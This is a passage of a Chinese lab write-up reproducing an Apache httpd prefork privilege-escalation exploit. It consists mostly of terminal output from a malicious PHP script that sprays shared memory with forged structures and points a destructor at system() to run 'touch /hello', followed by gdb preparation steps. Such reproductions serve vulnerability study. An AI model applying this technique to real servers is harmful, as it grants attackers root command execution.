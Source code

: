 #### 步骤

##### 根目录显示

    ➜  ~ ls /
    bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  www

##### 让服务器执行恶意php代码

    ➜  ~ curl 127.0.0.1
    PID: 19896
    /dev/zero start addr:0x7f1f62a32000
    /dev/zero end addr:0x7f1f62a4a000
    self parent struct addr:0x7f1f62a32040
    parent arr addr:0x7f1f62a32040
    heap start addr:0xf59000
    heap end addr:0x1022000
    libapr text start addr:0x7f1f61ffa000
    libapr text end addr:0x7f1f6202f000
    libapr data start addr:0x7f1f6222e000
    libapr data end addr:0x7f1f6222f000
    all_buckets addr:0xff0c18
    evil prefork_child_bucket start addr:0x7f1f62a321a8
    evil prefork_child_bucket end addr:0x7f1f62a321e0
    evil zend_array start addr:0x7f1f62a321e0
    evil zend_array end addr:0x7f1f62a32218
    evil mutex_methods start addr:0x7f1f62a32218
    evil mutex_methods end addr:0x7f1f62a32268
    evil string: touch /hello len:16
    evil string start addr:0x7f1f62a32268
    evil string end addr:0x7f1f62a32278
    zend_object_std_dtor function addr:0x7f1f5c03d300
    system function addr:0x7f1f617a94c0
    child_init(0x7f1f62a32248) => zend_object_std_dtor
    pDestructor(0x7f1f62a32210) => system
    meth(0x7f1f62a321e8) => mutex_mthods_struct
    mutex(0x7f1f62a321b8) => zend_array struct
    properties(0x7f1f62a321d8) => zend_array struct
    ar_data(0x7f1f62a321f0) => evil string

    Spraying the shared memory start

    evil_shm_start:0x7f1f62a32278
    evil_shm_end:0x7f1f62a4a000
    evil_shm_size:17d88
    evil_shm_mid_addr:0x7f1f62a3e140
    bucket:fe3ec349aa5

此时，共享内存中，已经被我们的恶意数据给填充。

##### 为通过gdb模拟修改bucket指向我们的恶意结构做准备

    [root@bogon john]# ps -aux | grep httpd
    root      19895  0.0  0.2 285296 10652 ?        Ss   14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19896  0.0  0.2 287512  9348 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19897  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19898  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19899  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19900  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start